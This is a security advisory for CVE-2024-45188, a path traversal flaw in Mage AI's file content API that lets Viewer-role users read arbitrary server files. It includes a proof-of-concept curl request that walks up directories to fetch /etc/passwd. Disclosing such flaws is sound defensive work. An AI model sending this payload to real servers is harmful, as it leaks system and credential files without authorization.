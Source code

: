 ```yaml
---
description: CVE-2024-45188, MEDIUM, Mage AI file content request remote arbitrary file leak
title: Mage AI file content request remote arbitrary file leak
date_published: "2024-08-23"
last_updated: "2024-08-23"
xray_id: JFSA-2024-001039603
vul_id: CVE-2024-45188
cvss: 6.5
severity: medium
discovered_by: Ori Hollander
type: vulnerability

---
```


## Summary

Mage AI file content request remote arbitrary file leak

## Component

mage-ai

## Affected versions

(,)

## Description

Mage AI allows remote users with the "Viewer" role to leak arbitrary files from the Mage server due to a path traversal in the "File Content" request

## PoC

```bash
curl -X GET
'http://localhost:6789/api/file_contents/..%2F..%2F..%2Fetc%2Fpasswd?api_key=
<USER API KEY>' -H 'Authorization: Bearer
<USER TOKEN>'
```



## Vulnerability Mitigations

No mitigations are supplied for this issue

## References

No references are supplied for this issue

